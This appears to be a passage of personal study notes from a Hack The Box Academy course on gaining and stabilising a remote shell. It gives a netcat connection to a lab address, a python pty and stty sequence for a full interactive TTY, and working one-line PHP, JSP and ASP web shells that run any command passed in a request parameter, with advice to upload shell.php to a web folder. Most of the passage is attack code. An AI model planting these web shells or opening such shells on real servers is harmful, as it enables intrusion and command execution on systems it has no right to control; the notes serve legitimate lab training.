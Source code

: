Then : 

```shell-session
nc 10.10.10.1 1234
```

Command to have a full TTY shell :

```shell-session
python -c 'import pty; pty.spawn("/bin/bash")'
``` 

Then : 
```shell-session
www-data@remotehost$ ^Z

NolanCarougeHTB@htb[/htb]$ stty raw -echo
NolanCarougeHTB@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
```

For size and color :
```shell-session
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

### Web Shell : 

```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```

Upload a shell.php in the following folders :

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Fundamental/Getting%20Started/Images/WebShell.png)
